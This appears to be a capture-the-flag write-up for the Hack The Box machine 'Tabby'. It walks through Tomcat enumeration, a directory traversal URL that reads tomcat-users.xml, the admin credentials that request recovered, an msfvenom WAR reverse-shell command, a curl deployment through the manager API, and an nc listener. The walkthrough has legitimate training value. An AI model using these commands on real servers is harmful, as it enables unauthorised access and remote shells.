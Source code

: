 ```

Taking a look at these directories, it is clear the system is running Apache Tomcat 9.0.31, and we have access to all the documentation here.

![](/img/tabby/2020-12-09_05-18.png)

/examples

Looking at the example page, it is noted that the system has functionality to execute jsp files.

![](/img/tabby/2020-12-09_05-19.png)

/host-manager/html

The rest of the directories are all hitting 401 Unauthorized. Although these files aren&#39;t letting me in, they do in particular have some use. It is showing the default credentials for tomcat.

![](/img/tabby/2020-12-09_05-24.png)

**Initial Shell Vulnerability Exploited**

Okay with all this information there is a way in, I am going to use the directory traversal attack to read tomcat-users.xml.

Fire up burp and intercept the request to this URL

``` http://megahosting.htb/news.php?file=../../../../../../usr/share/tomcat9/etc/tomcat-users.xml ```


Forward the intercepted request to the repeater (Ctrl + R), Once the request has been sent in the repeater, as I can see I have successfully obtained admin credentials for the tomcat server.

![](/img/tabby/2020-12-09_06-31.png)

**Credentials**

**User:** tomcat

**Pass:** $3cureP4s5w0rd123!

On viewing the manager page on successful login, I am now greeted with 403, this version of tomcat has restrictions in place so it can only be viewed from a browser on the target system.

![](/img/tabby/2020-12-09_06-38.png)

I have decided to create a .war reverse shell using msfvenom, I have exploited a lower version of tomcat before, and this will come in useful later.

``` msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.60 LPORT=1234 -f war -o shell.war ```

Referencing the documentation has shown that it is possible to deploy a .war application remotely. I already have the credentials so lets give this a go.

[https://tomcat.apache.org/tomcat-9.0-doc/manager-howto.html#Deploy\_A\_New\_Application\_Archive\_(WAR)\_Remotely](https://tomcat.apache.org/tomcat-9.0-doc/manager-howto.html#Deploy_A_New_Application_Archive_(WAR)_Remotely)

``` curl -v -u 'tomcat:$3cureP4s5w0rd123!' -T shell.war &#39;http://tabby.htb:8080/manager/text/deploy?path=/shell&amp;update=true&#39; ```

![](/img/tabby/2020-12-09_07-26.png)

Time to get that reverse-shell, set up a nc listener.

``` nc -lnvp 1234 ```
```